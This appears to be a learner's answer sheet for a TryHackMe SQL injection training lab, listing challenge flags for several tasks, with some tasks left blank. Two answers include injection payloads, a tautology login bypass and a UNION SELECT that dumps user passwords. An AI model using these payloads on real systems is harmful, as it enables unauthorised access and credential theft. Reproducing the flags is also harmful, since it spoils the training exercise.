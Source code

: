 # TryHackMe SQL Injection Lab

> Saikat Karmakar | Mar 21:2021

-------------------------------------------------------------------------------

# Task 2
1.	What is the flag for SQL Injection 1: Input Box Non-String?
```
THM{dccea429d73d4a6b4f117ac64724f460}
```
2.	What is the flag for SQL Injection 2: Input Box String?
```
THM{356e9de6016b9ac34e02df99a5f755ba}
```
3.	What is the flag for SQL Injection 3: URL Injection?
```
THM{645eab5d34f81981f5705de54e8a9c36}
```
4.	What is the flag for SQL Injection 4: POST Injection?
```
THM{727334fd0f0ea1b836a8d443f09dc8eb}
```

# Task 3
1.	What is the flag for SQL Injection 5: UPDATE Statement? 
```
THM{b3a540515dbd9847c29cffa1bef1edfb}
```

# Task 4
1.	What is the flag for this challenge?
```
THM{f35f47dcd9d596f0d3860d14cd4c68ec}//1' or 1 == 1 --
```

# Task 5 
1.	 What is the flag for this challenge? 
```
THM{fb381dfee71ef9c31b93625ad540c9fa}//' UNION SELECT 1,group_concat(password) FROM users-- -
```

# Task 6
1.	What is the flag for this challenge? 
```
THM{f1f4e0757a09a0b87eeb2f33bca6a5cb}
```

# Task 7
1.	What is the flag for this challenge? 
```

```

# Task 8
1.	What is the flag for this challenge? 
```

```

# Task 9
1.	What is the flag for this challenge? 
```

```

# Task 10
1.	What is the flag for this challenge? 
```

```
